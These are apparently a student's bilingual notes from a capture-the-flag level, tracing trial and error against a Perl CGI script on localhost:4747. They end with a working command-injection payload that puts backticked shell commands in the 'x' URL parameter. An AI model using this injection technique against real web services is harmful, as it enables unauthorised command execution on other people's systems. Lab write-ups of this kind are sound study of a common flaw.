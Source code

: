 # useful links
* http://files.avanquest.com/file-extension-pl/fr/
* https://www.codeconvert.ai/perl-to-c-converter
* https://www.botify.com/learn/basics/what-are-url-parameters

# cmd
* ``ls -la``
    * level04.pl -> file perl confirmed by cat cmd
* try 1 : modify .pl to exec getflag
    * ``cp level04.pl /tmp/.``
    * ``vim level04.pl``
    * change ``echo $y 2>&1`` for ``/bin/getflag``
    * ``perl level04.pl``
        * fail to get the flag
* try 2 : change echo like in level03
    * fail to get the flag
* try 3 : look at ``localhost:4747``
    * ``curl localhost:4747 > /tmp/response.txt``
    * cat -e ``/tmp/response.txt``
        * ``$``
    * ``curl localhost:4747/getflag``
        * 404 Not Found -> XD
    * ``curl localhost:4747/flag04``
        * 404 Not Found
* try 4 : analyse of .pl
    * l2 : ``localhost:4747`` -> something to do with curl localhost:4747
    * l9 : ``param("x")`` -> play with x ?
    * lets try ``curl localhost:4747?x=test``
        * ``test`` as response
    * ``curl localhost:4747?x=getflag``
        * ``getflag`` -> :sob:
    * ``curl localhost:4747?x=\`echo bouh\```
        * ``bouh`` -> :starry_eyes:
    * ``curl localhost:4747?x=`getflag` ``
        * pas la meme erreur, on avance
    * l6 : ``$y = $_[0]`` -> ``int y = argv[1];`` en C
    * ``curl 'localhost:4747?x=`getflag`' ``

# explications : Pourquoi ``curl 'localhost:4747?x=`getflag`' `` marche et pas ``curl localhost:4747?x=`getflag` `` ?
* pour que le ` soit compte (source : https://stackoverflow.com/questions/1547899/which-characters-make-a-url-invalid)